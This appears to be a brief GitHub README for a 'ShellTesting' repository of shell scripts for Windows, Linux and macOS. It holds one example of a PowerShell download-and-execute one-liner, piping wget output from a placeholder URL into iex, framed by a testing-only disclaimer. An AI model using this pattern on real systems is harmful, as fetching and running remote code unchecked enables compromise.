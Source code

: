 # ShellTesting
Random Files that may include powershell scripts to linux and MacOs scripts


# Windows
> Powershell
> Invoke-Expression can be pipelined and shortened into iex(Invoke-Expression)
> example wget"url"|iex or wget"url"|Invoke-Expression

### Disclaimer
>These resources are only for testing and academic purposes and can only be used where strict consent has been given. Do not use them for illegal purposes! It is the end user’s responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by these tools, programs, scripts and software.
